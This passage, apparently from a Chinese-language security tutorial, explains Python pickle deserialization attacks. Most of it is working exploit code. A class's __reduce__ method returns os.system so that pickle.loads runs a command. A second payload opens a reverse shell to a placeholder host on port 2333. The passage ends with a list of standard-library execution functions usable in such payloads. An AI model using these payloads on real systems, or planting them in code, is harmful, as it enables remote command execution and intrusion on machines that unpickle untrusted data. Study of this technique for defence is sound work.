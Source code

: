 举个例子就清楚了：

```
import pickle
import os
class Exp(object):
    def __reduce__(self):
        # 导入os模块执行命令
        return(os.system,('ls',))
        # return(os.system,('ls',))
        # return(eval,("os.system('ls')",))
        # return(map,(os.system, ('ls',)))
        # return(eval,("__import__('os').system('ls')",))

a = Exp()
test = pickle.dumps(a)
pickle.loads(test)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0116f9dbd56e85c42a.png)

如上图，可以看到成功执行了ls命令。

> **这里注意，在python2中只有内置类才有 `__reduce__` 方法，即用`class A(object)`声明的类，而python3中已经默认都是内置类了。**

当然我们还可以反弹shell：

```
import pickle
import os
class Exp(object):
    def __reduce__(self):
        shell = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return(os.system,(shell,))    
a=Exp()
result = pickle.dumps(a)
pickle.loads(result)
```

`pickle.loads()` 是会自动解决 import 问题的，对于未引入的 `module` 会自动尝试 `import`。那么也就是说整个python标准库的代码执行、命令执行函数我们都可以使用：

```
eval, execfile, compile, open, file, map, input,
os.system, os.popen, os.popen2, os.popen3, os.popen4, os.open, os.pipe,
os.listdir, os.access,
os.execl, os.execle, os.execlp, os.execlpe, os.execv,
os.execve, os.execvp, os.execvpe, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe,
os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe,
pickle.load, pickle.loads,cPickle.load,cPickle.loads,
subprocess.call,subprocess.check_call,subprocess.check_output,subprocess.Popen,
commands.getstatusoutput,commands.getoutput,commands.getstatus,
glob.glob,
linecache.getline,
shutil.copyfileobj,shutil.copyfile,shutil.copy,shutil.copy2,shutil.move,shutil.make_archive,
dircache.listdir,dircache.opendir,
io.open,
popen2.popen2,popen2.popen3,popen2.popen4,
timeit.timeit,timeit.repeat,
sys.call_tracing,
code.interact,code.compile_command,codeop.compile_command,
pty.spawn,
posixfile.open,posixfile.fileopen,
platform.popen
```
